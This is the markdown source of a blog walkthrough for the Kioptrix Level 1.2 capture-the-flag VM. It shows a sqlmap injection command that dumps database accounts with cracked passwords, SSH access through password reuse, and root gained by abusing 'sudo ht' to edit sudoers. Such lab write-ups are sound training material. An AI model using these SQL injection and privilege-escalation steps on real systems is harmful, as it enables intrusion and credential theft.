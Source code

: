```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.2 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.2 Walkthrough, CTF solution for Kioptrix Level 1.2.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating: Easy</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.7p1 Debian 8ubuntu1.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

Enumeration of the website discovered it was likely vulnerable to an [SQL Injection](/penetration-testing/web-app/sql-injection/), entering <code>id='</code> rendered the following MySQL error:

![SQL Error](/img/blog/kioptrix/sql-error.png)


SQLMap was used to successfully dump the databases and crack the hashes:

{% highlight bash %}

[root:~]# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+

{% endhighlight %}

## Non privileged shell

Due to password reuse both accounts were able to ssh, dreg had a limited shell.

## Local Enumeration

Local enumeration of loneferrets home dir disclosed:

{% highlight bash %}
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
{% endhighlight %}

## Privilege Escalation

<code>sudo ht</code> rendered a file explorer, the user <code>loneferret</code> was added to the sudoers group, making privilege escalation trivial.  

![sudo ht](/img/blog/kioptrix/sudo-ht.png)

{% highlight bash %}

loneferret@Kioptrix3:~$ sudo -s
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~#

{% endhighlight %}
